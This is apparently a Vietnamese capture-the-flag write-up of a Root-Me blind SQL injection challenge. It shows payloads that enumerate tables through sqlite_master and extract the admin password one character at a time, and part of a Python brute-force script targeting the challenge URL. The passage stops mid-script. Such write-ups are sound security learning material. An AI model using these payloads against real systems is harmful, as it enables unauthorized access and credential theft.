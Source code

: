 ![img](./img/4.png)

Ồ Nô, bị filter mất rùi, mình không thử sử dụng lệnh UNION để khai thác nữa . Nhưng không sao không sao, vẫn còn nhiều cách khác, trước tiên mình cần phỉa xác định độ dài và tên của table thông qua ``sqlite_master`` , đây đuợc coi là master table giữ thông tin quan trọng về các bảng trong database.

Payload:
```
user1' and (SELECT hex(substr(tbl_name,{i},1)) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('{c}') -- -
```
Bời vì đây là blind injection, tức là kết quả trả về chỉ cho mình biết payload của mình có thành công hay không, vậy mình đã viết script để brute force với cái payload trên cụ thể là so sánh từng kí tự dưới dạng hex với từng kí tự của ``tbl_name`` trong ``sql_master``

Payload:
```
admin' and substr((select password from users where (username='admin')),{i},1)='{c}'--
```
Script:
```
#!python3
import requests
import string
sess=requests.Session()
url='http://challenge01.root-me.org/web-serveur/ch10/'
payload=string.printable
passwd=''   
i=1
while True:
    for c in payload:
        # Extract ra ten cua table
        # table={
        #     'username':f"user1' and (SELECT hex(substr(tbl_name,{i},1)) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('{c}') -- -",
        #     'password':'pass'
        # }
 
        # Extract ra password cua admin
        data={
            'username':f"admin' and substr((select password from users where (username='admin')),{i},1)='{c}'--",
            'password':'pass'
        }
        r=sess.post(url,data=data)
        if "Welcome back" in r.text:
```